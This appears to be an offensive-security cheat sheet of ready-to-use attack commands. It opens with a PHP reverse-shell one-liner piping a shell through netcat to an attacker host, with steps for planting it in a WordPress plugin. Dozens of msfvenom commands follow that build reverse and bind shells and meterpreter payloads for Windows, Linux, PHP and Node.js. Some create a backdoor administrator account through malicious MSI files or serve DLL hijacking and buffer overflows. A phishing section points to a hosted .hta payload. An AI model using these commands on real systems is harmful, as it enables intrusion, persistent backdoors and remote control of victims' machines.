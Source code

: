 ### php reverse shell - wordpress plugin
When accessing a wordpress site, add this to a plugin source code using the plugin editor at the top - then activate the plugin:
```
<?php system('rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc attacker_IP 443 >/tmp/f'); ?>
```

## MSFVenom commands
```
#Windows
msfvenom -p windows/x64/shell_reverse_tcp LHOST=attacker_IP LPORT=443 -f exe -o rev.exe
msfvenom -p windows/x64/shell_reverse_tcp LHOST=tun0 LPORT=1337 -f exe -o payload.exe
msfvenom -p windows/meterpreter/reverse_tcp LHOST=attacker_IP LPORT=4444 -f dll > Dwrite.dll
msfvenom -p windows/meterpreter/reverse_tcp LHOST=attacker_IP LPORT=443 -f exe > 'backdoor.exe'
msfvenom -p windows/meterpreter/bind_tcp LHOST=attacker_IP LPORT=7777 -f exe -o payload.exe

#Windows MSI - AlwaysInstallElevated
msfvenom -p windows/x64/shell_reverse_tcp LHOST=<attacker_IP> LPORT=443 -f msi -o reverse.msi
msfvenom -p windows/adduser USER=backdoor PASS=backdoor123 -f msi -o evil.msi

To add a user to admin group:
msfvenom -p windows/exec CMD="net user backdoor backdoor123 /add && net localgroup administrators backdoor /add" -f msi -o evil.msi
net localgroup administrators backdoor /add

#Linux
msfvenom -p cmd/unix/reverse_netcat LHOST=attacker_IP LPORT=1337 -f raw -o reverse_shell
msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=tun0 LPORT=1337 -f elf > shell.elf
msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=tap0 LPORT=1337 -f elf > shell.elf

#Buffer overflows example
msfvenom -p linux/x86/shell_reverse_tcp LHOST=attacker_IP LPORT=42424 -f py -e x86/shikata_ga_nai -b "\x00\x0a\x0b\x0d"
msfvenom -p windows/meterpreter/bind_tcp LHOST=attacker_IP LPORT=7777 -f py -e x86/shikata_ga_nai -b "\x00\x0a\x0b\x0d"

#misc
msfvenom -p php/meterpreter_reverse_tcp lhost=attacker_IP lport=445 -o meterpreter.php
msfvenom -p nodejs/shell_reverse_tcp LHOST=tun0 LPORT=3000

#dll hijacking
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=attacker_IP LPORT=5555 -f dll > shell.dll
msfvenom -p windows/x64/shell_reverse_tcp LHOST=attacker_IP LPORT=5555 -f dll > shell.dll
msfvenom -p windows/x64/shell/bind_tcp LHOST=attacker_IP LPORT=5555 -f dll > shell.dll
msfvenom -p windows/x64/shell/bind_tcp LHOST=attacker_IP LPORT=5555 -f dll > shell.dll
```
## Phishing
### hosted .hta file
Grab the index.hta file here: https://github.com/Z333RO/security-tools-public/blob/main/odds_ends/index.hta
